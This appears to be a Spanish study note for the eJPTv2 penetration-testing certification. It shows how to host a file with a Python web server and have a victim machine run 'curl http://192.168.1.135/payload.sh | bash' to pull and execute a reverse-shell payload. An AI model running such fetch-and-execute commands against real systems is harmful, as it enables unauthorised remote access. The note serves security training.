 En primer lugar, tendremos que levantar un servidor mediante el comando:

````
python3 -m http.server 80
````

Mediante el comando levantaremos un servidor web en el puerto 80 con todos los archivos que se encuentren en el <span style="color:rgb(255, 192, 0)"><span style="color:rgb(255, 192, 0)">DIRECTORIO ACTUAL</span>.</span>

Este servidor nos permitirá descargar archivos dentro de la máquina victima de forma rápida y fácil siempre y cuando tengamos acceso a ella.

En este caso, se está subiendo un archivo llamado <span style="color:rgb(0, 176, 80)">$Payload.sh$</span> el cual contiene una revershell que hemos preparado previamente.

![[2.1. Archivo Payload 1.jpg]]

Este archivo, como ya se ha comentado está en un servidor local subido por lo que desde la otra máquina si usamos el comando:

````
curl http://192.168.1.135/payload.sh | bash
````

Mediante el comando, siempre y cuando estemos a la escucha como se explico en [[eJPTv2/CONCEPTOS BÁSICOS/1. Netcat]], tendremos acceso a una línea de comandos con nuestra máquina atacante.

Es altamente recomendable realizar una ReverseShell siempre que sea accesible a una línea de comandos.


